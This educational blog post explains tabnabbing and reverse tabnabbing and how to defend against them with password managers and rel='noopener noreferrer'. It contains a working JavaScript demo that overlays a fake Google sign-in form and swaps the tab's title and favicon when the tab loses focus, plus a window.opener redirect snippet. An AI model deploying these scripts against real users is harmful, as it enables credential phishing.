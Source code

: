 ```yaml
---
title: Tabnabbing & Reverse Tabnabbing
date: '2022-12-23'
tags: ['web', 'security', 'software']
draft: false
summary: Tabnabbing, with its reverse variant, is an exploit enabling malicious actors to replace one of your browser's opened window to a site of their choosing.
---
```


# Introduction

When working with links and windows on the web, there are manly complex things to consider. Tabnabbing and reverse tabnabbing however, don't require complex factors in your code, and are both easy to pull off and defend against. These attacks mainly utilize the user's attention being somewhere else. While the user is occupied with something else, the tab is either replaced or changed in a way to permit a phishing attack.

# Tabnabbing

First, let's talk about the simple version: tabnabbing. The term was coined in [this article](http://www.icir.org/vern/cs161/demos/tabnabbing/tabnab.html) by Aza Raskin and the steps as explained by them are as follows:

1. A user navigates to your normal looking site.
2. You detect when the page has lost its focus and hasn’t been interacted with for a while.
3. You replace the favicon with the Gmail favicon, the title with “Gmail: Email from Google”, and the page with a Gmail login look-a-like. This can all be done with just a little bit of Javascript that takes place instantly.
4. As the user scans their many open tabs, the favicon and title act as a strong visual cue—memory is malleable and moldable and the user will most likely simply think they left a Gmail tab open. When they click back to the fake Gmail tab, they’ll see the standard Gmail login page, assume they’ve been logged out, and provide their credentials to log in. The attack preys on the perceived immutability of tabs.
5. After the user has entered their login information and you’ve sent it back to your server, you redirect them to Gmail. Because they were never logged out in the first place, it will appear as if the login was successful.

As Raskin notes in their article, the phishing content can be customized for each user in a spear phishing attack. The attack is very effective when posing as bank websites as a critical website warning the user that their login has timed out will not seem suspicious to the user. A user's company, password manager or even government login could be compromised if the victim is not paying attention.

Here's the attack script as seen on [this site's projects page](https://tabnabbing.vercel.app/projects) mostly adapted from [this gist](https://gist.github.com/cabe56/96b387a7f901f0219c8c):

<details>
<summary>Click to expand</summary>
```javascript
<script id="tabnabbing-example" type="application/javascript">
  {
    (function () {
      var TIMER = null
      var HAS_SWITCHED = false

      // Events
      window.onblur = function () {
        TIMER = setTimeout(changeItUp, 3500)
      }

      window.onfocus = function () {
        if (TIMER) clearTimeout(TIMER)
      }

      // Utils
      function setTitle(text) {
        document.title = text
      }

      // This favicon object rewritten from:
      // Favicon.js - Change favicon dynamically [http://ajaxify.com/run/favicon].
      // Copyright (c) 2008 Michael Mahemoff. Icon updates only work in Firefox and Opera.

      const favicon = {
        docHead: document.getElementsByTagName('head')[0],
        set: function (url) {
          this.addLink(url)
        },

        addLink: function (iconURL) {
          var link = document.createElement('link')
          link.type = 'image/x-icon'
          link.rel = 'shortcut icon'
          link.href = iconURL
          this.removeLinkIfExists()
          this.docHead.appendChild(link)
        },

        removeLinkIfExists: function () {
          var links = this.docHead.getElementsByTagName('link')
          for (var i = 0; i < links.length; i++) {
            var link = links[i]
            if (link.type == 'image/x-icon' && link.rel == 'shortcut icon') {
              this.docHead.removeChild(link)
              return // Assuming only one match at most.
            }
          }
        },

        get: function () {
          var links = this.docHead.getElementsByTagName('link')
          for (var i = 0; i < links.length; i++) {
            var link = links[i]
            if (link.type == 'image/x-icon' && link.rel == 'shortcut icon') {
              return link.href
            }
          }
        },
      }

      function createShield() {
        var div = document.createElement('div')
        div.style.position = 'fixed'
        div.style.top = 0
        div.style.left = 0
        div.style.backgroundColor = 'white'
        div.style.width = '100%'
        div.style.height = '100%'
        div.style.textAlign = 'center'
        document.body.style.overflow = 'hidden'

        // var img = document.createElement('img')
        // img.style.paddingTop = '15px'
        // img.src = 'http://img.skitch.com/20100524-b639xgwegpdej3cepch2387ene.png'

        var oldTitle = document.title
        var oldFavicon = favicon.get() || '/favicon.ico'

        div.innerHTML = `<body>
              <div class="box">
                      <h2>Sign in</h2>
                      <p>Use your Google Account</p>
                      <form onsubmit="alert('You got tabnabbed! I hope you didnt enter your password!')">
                        <div class="inputBox">
                          <input type="email" name="email" required onkeyup="this.setAttribute('value', this.value);"  value="">
                          <label>Username</label>
                        </div>
                        <div class="inputBox">
                              <input type="text" name="text" required onkeyup="this.setAttribute('value', this.value);" value="">
                              <label>Password</label>
                            </div>
                        <input type="submit" name="sign-in" value="Sign In">
                      </form>
                    </div>
              </body>`
        //TODO: Afterwards actually route the page to mail.google.com to make sure the victim doesn't notice we tabnabbed them

        // div.appendChild(img)
        document.body.appendChild(div)
      }
      function changeItUp() {
        if (HAS_SWITCHED == false) {
          createShield('https://mail.google.com')
          setTitle('Gmail: Email from Google')
          favicon.set('https://mail.google.com/favicon.ico')
          HAS_SWITCHED = true
        }
      }
    })()}

</script>
```
</details>

# Reverse Tabnabbing

This is an attack where the victim clicks on an unsafely routed link, and when they are spending time on the newly opened page, the original page is replaced with malicious content. The original site containing the unsafe link can be completely oblivious to these events, it only serves to be replaced once the user has clicked the unsafe link.

Explanation given by [OWASP](https://cheatsheetseries.owasp.org/cheatsheets/HTML5_Security_Cheat_Sheet.html#tabnabbing) is as follows:

![With back link](https://owasp.org/www-community/assets/images/TABNABBING_OVERVIEW_WITH_LINK.png)

The attack is typically possible when the source site uses a target instruction in a html link to specify a target loading location that do not replace the current location and then let the current window/tab available and does not include any of the preventative measures detailed below.

The attack is also possible for link opened via the window.open javascript function.

Why is this harmful? Because neither the linked-to page, nor the phishing page lie on the same domain or origin as the original page. The site doesn't need to be compromised. It just needs to allow user-submitted anchors with target="\_blank".

## Examples

Vulnerable page ([landing page of this site](https://tabnabbing.vercel.app)):

```jsx
<button
  onClick={() => {
    window.open('https://tabnabbing.vercel.app/blog')
  }}
>
  Check out our blog!
</button>
```

Malicious site that is linked to ([the blog page of this site](https://tabnabbing.vercel.app/blog)):

```html
<script id="reverse-tabnabbing-example" type="application/javascript">
  {
    function () {
      if (window.opener) {
        window.opener.location = 'https://yildiz.edu.tr'
      }
    }()
  }
</script>
```

# Try it out

This blog contains code to enable tabnabbing and reverse tabnabbing attacks for educational purposes.
To get tabnabbed, visit the [projects](tabnabbing.vercel.app/projects) page and without leaving the page, either click on a project(which will open an external link in another tab) or just click away to another tab for a few seconds. When you look through your tabs, you might see a new fake gmail tab, with a fake gmail login page that contains a half-hearted attempt at imitating the real page's CSS. The phishing login can be improved by using a tool such as [SET](https://github.com/trustedsec/social-engineer-toolkit), this implementation is just for demonstration purposes.
If you would like to try out the reverse tabnabbing method, head to [the landing page of this site](tabnabbing.vercel.app) and click on the "announcement". When the new window is opened, you'll see the previous window changes to an unrelated site. This could be any site the attacker wants you to see, and if you're not paying attention it provides the attacker with an attack vector as big as their imagination.
Both attacks work on all major browsers, as long as the website contains the vulnerabilities described in the article.

# Solutions

The best method to ensure credentials safety on the web is to always use a password manager. There are many free and/or open source tools available, I personally use [Bitwarden](https://bitwarden.com/). There are credentials managers built into all major browsers that mostly negate these attacks and many more, because even if the user doesn't recognize that the login form they are about to fill is fake, the password manager will know, because the URL doesn't match the already-saved legit URL.

To prevent reverse tabnabbing and cut the back link, when developing websites with user-submitted content, add the attribute `rel="noopener"` on the tag used to create the link from the parent page to the child page. This attribute value cuts the link, but depending on the browser, lets referrer information be present in the request to the child page.
To also remove the referrer information use this attribute value: `rel="noopener noreferrer"`.

### Sources

- https://owasp.org/www-community/attacks/Reverse_Tabnabbing

- https://cheatsheetseries.owasp.org/cheatsheets/HTML5_Security_Cheat_Sheet.html#tabnabbing

- http://www.icir.org/vern/cs161/demos/tabnabbing/tabnab.html

- https://gist.github.com/cabe56/96b387a7f901f0219c8c

- https://github.com/EdwinOtten/reverse-tabnabbing-demo/

- https://santexgroup.com/blog/what-is-reverse-tabnabbing-and-why-is-it-important-to-be-aware-of/

- https://github.com/trustedsec/social-engineer-toolkit

- http://danielstjules.github.io/blankshield/

---
